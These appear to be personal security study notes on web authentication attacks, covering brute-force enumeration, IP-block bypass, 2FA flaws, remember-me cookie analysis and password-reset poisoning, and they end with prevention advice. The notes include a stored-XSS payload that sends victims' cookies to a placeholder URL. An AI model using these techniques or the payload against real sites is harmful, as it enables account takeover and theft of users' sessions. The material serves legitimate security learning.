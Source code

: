 
### General Notes

> The process of verifying the identity of a user.

* Knowledge Factors: Something you know like a password.
* Possesion Factors: Something you have like a security token.
* Inherence Factors: Something you are like biometrics.

> Authentication is verifying that a user is who they claim to be.
> Authorization is verifying whether a user is allowed to do something.

---

### Password Attacks

> Against websites that have username-password based login mechanisms.

##### Brute Force Attacks

> Trial and error attempts to guess valid user credentials.
> While brute forcing, must pay attention to: 
1. Status Codes: [[HTTP]] response codes can be observed. Sometimes the right username gives a different response than a wrong username.
2. Error Messages: Returned error messages are sometimes different when both username *and* password are incorrect, not just one of them. Observe characters for spelling mistakes, and so on.
3. Response Times: Observe response times. Sometimes websites will check password only if username is correct, so the response time increases. Can be checked by entering really large passwords, to make the website take longer to respond.

> Can be done via [[Burp Suite]] Intruder.
> To ensure 1 request is sent a time (if needed), go to resources pool tab and set the max concurrent requests to 1.

> If there is [[IP]] blocking, use the `X-Forwarded-For` [[HTTP]] header to change the IP address.
> If there is account locking, check all the usernames and don't exceed the password limit trials.

> User rate limiting occurs when making too many login attempts in a short period of time causing the [[IP]] to get blocked.
> IP can be unblocked by:
1. Manually by admin.
2. Manually by user after completing a CAPTCHA.
3. Automatically after a certain time period.
> User rate limiting can be bypassed by trying multiple passwords in one login request.

##### [[HTTP]] Basic Authentication

> Client recieves token from server constructed by concatenating username and password and then encoding in Base64. ([[Web Encoding]])
> This token is stored in the browser, and adds it in the `authorization` header of every request.
```
Authorization: Basic base64(username:password)
```

---

### Multi-Factor Authentication

##### Bypassing Two-Factor Authentication

> When users login and then are asked to enter some sort of verification code, they are already logged in.
> Sometimes, some pages are loaded before this verification stage is completed.

> To exploit this, login as a normal user and observe the URL paths that are after the verification stage.
> Then login as the victim user, and once asked for the verification, simply change the URL to another path to see if this stage can be altogether skipped.

##### Flawed Two-Factor Authentication

> After user has logged in, the website doesn't properly verify that it is the same user completing the second step; verification.

> Users are assigned [[Cookies]] when they are logged in that relate to their account. 
> This cookie is the same one that is taken to the verification stage.
> When the verification code is submitted, the cookie is used to determine the account the user is trying to access.

> An attacker coud login using his credentials, and then change his cookie to that of a victim user's.
> He would then have to brute force or guess the verification code in order to gain access to that account without even needing the password.

> Use the [[Burp Suite]] Turbo Intruder extension for increased speed in brute forcing verification codes.
> Can also be used to change macros, such as changing the session or logging in/out to avoid being blocked.

---

### Other Authentication Mechanisms


##### Keeping Users Logged In

> The 'remember me' feature is implemented by storing persistent [[Cookies]].
> Access to these cookies is dangerous as it skips the entire login process.

> These cookies can be generated via static value concatenation such as username, timestamp, password.
> If attacker can study their own cookie, they can figure out how these cookies are generated.

> Some websites have [[Web Encoding]] such as Base64, which can be easily decrypted.
> Using hashing functions is also not perfect as if the attacker identifies the hashing algorithm, they can brute force it using a wordlist using tools such as [[John the Ripper]].

> If attacker can't create an account, they can using [[Cross Site Scripting (XSS)]] steal another user's cookie and deduce how the cookie forms.
> Performing a stored attack to steal cookies:
``` HTML
<script>document.location='URL-to-send-to/'+document.cookie</script>
```

##### Resetting User Passwords

> Through the URL, users are taken to a unique page to reset their password.
```
http://website.com/reset-password?user=<victim>
```
> Not secure as attacker could change the victim username to any user and can change any users password.

> Using a long token for each user that is checked in the backend and then destroyed shortly after resetting the password.
> Sometimes, websites dont validate tokens, and attackers could reset their own password, then change that token to gain access to any user they need.
> This can be done by trying to delete the token value, and see if the website still responds properly.

> Another technique is to steal another user's token.
> Use the `X-Forwarded-Host` [[HTTP]] header to send the reset password email. 
> Let the value of that header to be my own website, so i can see the requests if clicked on by the victim user.
> Having the victim user token, I can open my own reset password page, but change the token to that of the victim user's.
> I can then reset the password.

##### Changing User Passwords

> Changing password means entering current password and then the new password twice.
> These features can be dangerous if attackers can access them without being logged in as the victim.

> Try different combinations of entering the correct current password and incorrect current password, and matching and not matching new passwords.
> Observe the responses for each combination, and check if a pattern is in place that can be cracked.

---

### Preventing Authentication Attacks

* Taking care with user credentials.
	* Never send login data over unencrypted connections.
	* Any [[HTTP]] to be converted to [[HTTPS]].
	* Audit the website so no private information is disclosed.
* Do not count on users for security.
	* Effective password policy.
* Prevent username enumeration.
	* Using identical generic error messages.
	* Return same status codes for any login request.
	* Make response times indestinguishable.
* Protect against brute force.
	* [[IP]]-based user rate limiting.
	* Prevent attackers from manipulating their IP address.
	* Complete CAPTCHA tests with each login attempt after a limit.
* Proper Multi-Factor Authentication.

---
